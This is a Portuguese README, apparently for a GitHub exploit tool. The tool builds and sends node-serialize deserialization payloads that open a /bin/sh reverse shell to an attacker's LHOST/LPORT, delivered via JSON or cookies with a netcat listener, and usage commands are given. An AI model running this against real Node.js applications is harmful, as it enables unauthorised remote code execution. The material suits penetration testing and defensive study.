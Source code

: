 # 🧬 deserializer.py

![dese](https://github.com/user-attachments/assets/7c3f398f-3da5-4cef-9e70-62d08141e59f)


Ferramenta de exploração para **Node.js Deserialization (node-serialize)** com suporte à execução automatizada de payloads **Reverse Shell**.

Este script foi feito para **gerar, codificar e opcionalmente enviar automaticamente** um payload malicioso para aplicações Node.js vulneráveis à deserialização. Ele suporta envio via JSON direto no corpo da requisição ou através de cookies.

---

## 🚀 Funcionalidades

- Geração de payload malicioso com shell reversa (`/bin/sh`) usando `node-serialize`.
- Codificação automática em Base64 para uso em cookies.
- Envio automático do payload com listener embutido.
- Suporte ao envio via **JSON** ou **Cookie**.
- Uso simples por linha de comando com parâmetros.

---

## 📦 Requisitos

- Python 3.6+
- `requests` (`pip install requests`)
- `netcat` (`nc`) instalado no sistema

---

## 🧠 Como funciona

O script gera um payload com a tag `_$$ND_FUNC$$_`, usada em exploits de `node-serialize`, onde uma função JavaScript é deserializada e executada no backend Node.js. Ao ser executado, ele conecta ao seu IP e porta definidos, abrindo uma shell remota.

---

## 🛠️ Uso

### Geração simples do payload

    python3 deserializer.py <LHOST> <LPORT>

### Envio automático já com a reverse shell + tipo de payload para cookie:

    python3 deserializer.py <LHOST> <LPORT> --reverse <URL> --cookie

### Envio automático já com a reverse shell + tipo de payload para json:

    python3 deserializer.py <LHOST> <LPORT> --reverse <URL> --json

